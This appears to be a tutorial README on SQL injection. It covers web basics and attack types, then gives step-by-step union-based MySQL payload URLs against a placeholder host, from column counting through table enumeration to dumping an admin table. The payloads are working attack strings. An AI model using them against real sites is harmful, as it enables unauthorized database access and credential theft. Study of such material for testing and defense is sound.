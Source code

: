 # SQL Injection Basic To Advanced

![SQL Injection](https://avinetworks.com/wp-content/uploads/2020/04/sql-injection-attack-diagram.png "SQL Injection")
##


## 1. Introduciton
**Web Architecture**
![Web Architecture](https://axisbits.com/storage/app/uploads/public/7da/cc4/ec1/7dacc4ec1c9bc16b7aa58185cb8efa5a.png "Web Architecture")
<br>
**Client Side (Frontend**
```
HTML
CSS 
JavaScript
```
**Server Side (Backend)**
```
PHP
ASP
Python
Ruby on Rails
Node JS 
SQL
```
**Database Management Systems**
```
MySQL
PostgreSQL
Oracle SQL
```
> Web Protocols
![Web Architecture](https://static.javatpoint.com/tutorial/computer-network/images/http-vs-https.png "Protocols")

##

> URL(Uniform Resource Locator) Structure
![Web Architecture](https://static.semrush.com/blog/uploads/media/fa/fe/fafe931ac85fc1c5b628299e399a2870/yqyhmdwqsDzxONy4U6FyLwK_LN_hl36xIGyfon2xWiopIuhrhR4w08c-NbWe2EnJXUh0RWDOCtMrlVNhqlBVmWRjKI3freLX4X_1Ugk7_9FwqgquwBsNqfaOnJZQ6xJJnGRKowrKhSBr_xVQZGI6gCg.png "URL")



##

## General Process:
- Find injection point  
- Understand the website behaviour  
- Hunting SQL Errors
- Identify Attack Types
- Injections And Bypass Process
- Dump Data

## SQL Error Hunting Types
- String Based
- Integer Based

## Types Of SQL Injection Attacks
- Authentication && Authorization Bypass
- Union Based SQL Injection Attacks
- Error Based Injection Attacks
- Blind SQL Injections (Bollean Based And Time Based)

![SQL Injection](https://media.geeksforgeeks.org/wp-content/uploads/20220716180638/types.PNG)


## Authentication && Authorization Bypass

![Autentication Authorization](https://www.okta.com/sites/default/files/styles/1640w_scaled/public/media/image/2020-10/Authentication_vs_Authorization.png?itok=uBFRCfww)

## General Process:
- Understanding SQL syntax
- Understanding SQL Boolean
- Understanding SQL limit
- understanding SQL comment
- Try to bypass


##

# Union Based SQL Injection

## General Process:
- Find Column Count
- Using UNION Operator To Add Malicious Statement
- Gather Database And DBMS Informations
- Finding Tables
- Finding Columns Of Table Or Tables
- Dump Data


**Finding Column Count**
```
https://vuln-web.vuln/product.php?id=1' ORDER BY 1-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1-- -

https://vuln-web.vuln/product.php?id=1' ORDER BY 1 ASC-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1 DESC-- -
```

**Using UNION Operator To Add Malicious Statement**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,3,4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION+ALL+SELECT+null,null,null,null,null-- -
https://vuln-web.vuln/product.php?id=1' UNION(SELECT(1),(2),(3),(4),(5))-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT CHAR(1),CHAR(2),CHAR(3),CHAR(4),CHAR(5)-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT * FROM (SELECT 1)a JOIN(SELECT 2)b JOIN(SELECT 3)c JOIN(SELECT 4)d JOIN(SELECT 5)e-- -
https://vuln-web.vuln/product.php?id=1' UNION Distinctrow SELECT 1,2,3,4,5-- -
```

## Understanding MYSQL DBMS Structures

```
MYSQL DBMS -> USER -> DATABASE -> TABLES -> ROWS -> Data
```
**information_schema Database**
```
provides access to database metadata, information about the MySQL server such as the name of a database or table, the data type of a column, or access privileges.
```

**Gather Database And DBMS Informations**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT database()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT version()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT user()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT @@datadir),4,5-- -
```

**Finding Tables**
```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()),4,5-- -
```

**Finding Columns Of Table Or Tables**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=database() and table_name='admin'),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name,':',column_name) FROM information_schema.columns WHERE table_schema=database()),4,5-- -
```

**Dump Data**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column1,':',column2) FROM admin),4,5-- -
```
